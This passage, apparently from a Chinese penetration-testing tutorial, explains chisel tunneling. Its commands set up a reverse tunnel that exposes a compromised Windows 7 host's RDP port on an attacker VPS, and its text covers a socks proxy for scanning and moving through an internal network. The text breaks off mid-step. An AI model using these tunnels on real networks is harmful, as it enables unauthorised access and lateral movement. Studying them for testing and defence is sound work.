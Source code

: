 ![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8chGvkicq0tR7G9wXDS7Go1tRYjWeDVz0uM4SulA16PpYPV4pLlOCdguEbxrnatBibjlUI1ppfW4XQ/640?wx_fmt=png)

(1): 第一步: 搭建 chisel 隧道

*   chisel 服务端 (CentOS 上)
    

```
./chisel server -p 6666 --reverse
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8chGvkicq0tR7G9wXDS7Go1mO4yE66PMhibVibHmKJsHCpueDD91CE8UBMf27HOgGojgDlbNJ2OTFxA/640?wx_fmt=png)

*   chisel 客户端 (win7 的 IP 为 192.168.223.151)
    

```
chisel.exe client -v VPS:6666 R:0.0.0.0:33389:192.168.223.151:3389
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8chGvkicq0tR7G9wXDS7Go1yo9PalVLQWWfZoDTA19I2O2qS6xUpJ3ycwibveCE30kweuaCZrwgQQg/640?wx_fmt=png)

(2): 第二步: 将 win7 的 3389 端口转发到 VPS 的 33389 端口

其实上一步已经完成了这一步操作，现在看一下 chisel 服务端和客户端的连接情况。

*   服务端
    

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8chGvkicq0tR7G9wXDS7Go1m8L2d1siaFmq2xxRFbsOsS1ftbIFRJ1ysFCVTbZMiayiaibHSBJpmIWoJA/640?wx_fmt=png)

*   客户端
    

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8chGvkicq0tR7G9wXDS7Go1QicA0pvLia221k6f1HpMAwFMVaeGTN2jR4mFtAhBwu0wAMGVQ9Rcvokw/640?wx_fmt=png)

(3): 第三步: 使用攻击者主机连接 win7 的 3389

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8chGvkicq0tR7G9wXDS7Go1OuyMaGoYhAmtn0fpWTmDKCNM4CBdJcchj4MDiaSwJhOdmxj71iaLT6vg/640?wx_fmt=png)

成功登录远程桌面。

#### **0x03 chisel 进行 socks 代理**

Chisel 现在支持 socks 代理，我们先看下需求，比如有两台主机，一台主机是我们的 VPS，有一个公网 IP，另一台主机是我们在内网中拿下的一台主机，我们需要在这台主机上配置 socks 代理，然后使用 SocksCap 等工具进行内网扫描或者内网渗透。如下图所示。

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8chGvkicq0tR7G9wXDS7Go1lgYFrCwvmdBsf8kUtph2kDZAZicaM7fIvuNkCuSVibbsYe2mvgFCxulQ/640?wx_fmt=png)

注意: 这个过程看似和之前的两种方法一样，但是这里面有一个最主要的问题就是，chisel 这个工具提供的 socks 代理默认是监听在 127.0.0.1 的 1080 端口上的。首先，需要先明确两个概念，127.0.0.1 和 0.0.0.0 者两个 IP 进行监听的区别是什么？127.0.0.1 监听的是本机上的所有流量，0.0.0.0 监听的是所有的 IP(不论是不是本机的 IP) 的流量。这就导致一个问题，如果我直接在 VPS 上执行完命令之后，默认监听 127.0.0.1 的 1080 端口，这样的话，我只能用 VPS 去访问内网主机，如果想要在 win10 上通过 SocksCap 设置代理访问内网是行不通的，因为刚才说过，这个 127.0.0.1 的 1080 端口只能使用 VPS 这台主机访问内网的 win7。因此，如果想要像之前一样使用 SocksCap 去代理访问内网，需要再多做一步，使用 ssh 的本地转发功能将 127.0.0.1 的 1080 上的 socks 流量转发到 0.0.0.0 的 23333 端口，这样我们就可以在外部通过 socks 流量实现对内网主机的访问。如果不进行 ssh 本地转发，那么就只能在 VPS 上设置 proxychains 代理这种方法对内网实现访问，这显然非常不方便。

(1): 第一步: 搭建 chisel 隧道

*   chisel 服务端 (CentOS 上)
    